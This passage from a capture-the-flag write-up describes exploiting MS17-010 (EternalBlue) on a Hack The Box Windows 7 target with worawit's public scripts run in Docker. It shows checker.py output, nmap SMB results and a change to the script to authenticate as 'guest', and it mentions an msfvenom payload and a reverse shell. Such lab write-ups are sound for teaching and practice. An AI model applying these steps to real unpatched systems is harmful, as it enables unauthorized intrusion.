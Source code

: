 ## Eternal Blue with MS17-010 by worawit

The original [MS17-010 GitHub repository by worawit](https://github.com/worawit/MS17-010) was released back in 2017 and has had a couple of updates since then. But the project is written in Python 2. If you have read any other HTB writeups I have done, you may have noticed that I use Docker quite a bit when dealing with Python 2 projects. I decided to do the same for this box, adding more to a previous solution I had written for the Legacy box.

The Docker solution is available in the [`exploits/perpetual_melancholy` folder](exploits/perpetual_melancholy). The solution has a script named `prep.sh` that creates a payload using `msfvenom` which is configurable using bash variables. Then it builds and starts a Docker container. Finally, it automatically puts the user into a shell on the container.

The general process when in the container is to:

- `checker.py`: Check that the target is vulnerable, and get returned named pipes
- `send_and_execute.py`: Run the exploit against the target and get a reverse shell connection

Getting started with the `checker.py` script, we can run it against the target.

```none
/opt/perpetual_melancholy/MS17-010 # python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

However, the results are not good! There are no "named pipes" that permit access. When the `checker.py` script is being executed, it attempts authentication using a blank (empty) username and password. But we could try the same check using different accounts. If we look back to the `nmap` results, it is seen that the `nmap` scanner returned results when using the `guest` account.

```none
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

It is possible to edit the username on line 14 of the `checker.py` script.

```none
/opt/perpetual_melancholy/MS17-010 # cat -n checker.py 
     1  from mysmb import MYSMB
     2  from impacket import smb, smbconnection, nt_errors
     3  from impacket.uuid import uuidtup_to_bin
     4  from impacket.dcerpc.v5.rpcrt import DCERPCException
     5  from struct import pack
     6  import sys
     7
     8  '''
     9  Script for
    10  - check target if MS17-010 is patched or not.
    11  - find accessible named pipe
    12  '''
    13
    14  USERNAME = 'guest'
    15  PASSWORD = ''
    ...snip...
```

